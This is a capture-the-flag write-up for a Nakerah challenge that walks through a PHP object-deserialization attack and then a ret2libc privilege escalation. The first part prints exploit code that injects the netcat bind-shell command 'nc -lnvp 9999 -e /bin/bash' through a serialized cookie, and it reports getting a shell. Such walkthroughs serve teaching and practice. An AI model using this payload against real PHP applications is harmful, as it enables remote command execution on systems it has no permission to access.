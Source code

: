 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

first we have that static page 

[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it

so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i get bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so  stay focus here 
it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems 
first with exCommand class we used a property command without identifying it so in our exploit 
we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff 
if we try to target our exCommand class it will fail with check function so ...
```

so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
* here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assining some values to properties and what interesting here it that `dummy propety` we gave it a value of  our `exCommand object` and finally serialize all that staff 

here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "sending payload")

* and voila we get our shell 
[logo]: img/sh.png
![alt text](img/sh.png "spawingin a shell")

<div align="center"><h1>fisrt mission completed successfully</h1></div

---
---

# Second mission

in the root dir we got README file

[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

```console
and finally i want to say to Nakerah team “You're the best.” 

and oxf1f1 “You knocked me off my feet!”
```

 
